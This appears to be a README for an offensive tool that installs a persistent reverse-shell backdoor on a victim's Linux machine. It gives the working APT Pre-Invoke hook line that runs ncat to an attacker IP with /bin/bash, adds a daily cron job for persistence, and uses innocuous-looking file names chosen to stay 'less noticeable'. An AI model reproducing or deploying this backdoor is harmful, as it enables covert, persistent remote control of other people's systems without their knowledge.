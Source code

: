# Overview
This script creates a persistent reverse shell backdoor on a victim's Linux machine using the apt-get system and cron. It takes advantage of routine system commands to ensure that the backdoor remains active and accessible.

## How It Works
1. APT Hook:
The script sets up a configuration file for the Advanced Packaging Tool (APT) system, specifically for apt-get update.
It uses the APT::Update::Pre-Invoke directive to run a reverse shell command before apt-get update executes. This command connects back to the attacker's machine, allowing remote access to the victim's shell.
The command is:
```APT::Update::Pre-Invoke {"nohup ncat \${ATTACKER_IP} \${ATTACKER_PORT} -e /bin/bash 2> /dev/null &"};```
The nohup command ensures that the reverse shell remains open even if the terminal session is closed.

2. Daily Cron Job:
A secondary script is created and made executable. This script is scheduled to run daily via a cron job.
The cron job ensures that the reverse shell remains active by regularly running the script, even if the APT hook is not triggered or is removed.

## Components
APT Hook Configuration:
Located in /etc/apt/apt.conf.d/99-system-maintenance
Executes the reverse shell command before apt-get update.

Persistent Script:
Located at /usr/local/bin/daily_update.sh
Runs the reverse shell command and is executed daily by the cron job.

Cron Job:
Configured to run the script daily at midnight.
Located in /etc/cron.d/daily_update

## Summary
Reverse Shell via APT Hook: This method leverages the frequent use of apt-get update to execute a reverse shell command, making it less noticeable.
Persistence with Cron: The cron job ensures the reverse shell remains active by running the script daily, even if the APT hook is disrupted.

## Removal Instructions
To remove the APT hook:
``rm -f /etc/apt/apt.conf.d/99-system-maintenance``

To remove the cron job:
``rm -f /etc/cron.d/daily_update``
